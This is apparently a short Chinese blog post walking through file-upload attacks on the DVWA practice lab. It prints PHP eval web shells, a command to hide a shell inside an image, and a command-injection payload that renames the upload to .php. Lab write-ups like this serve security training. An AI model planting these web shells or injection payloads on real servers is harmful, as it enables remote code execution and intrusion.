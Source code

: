 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
published: true
category: 靶场实战
---
```

# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?> 
```

构造url: http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo(); 
system('ls'); 
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```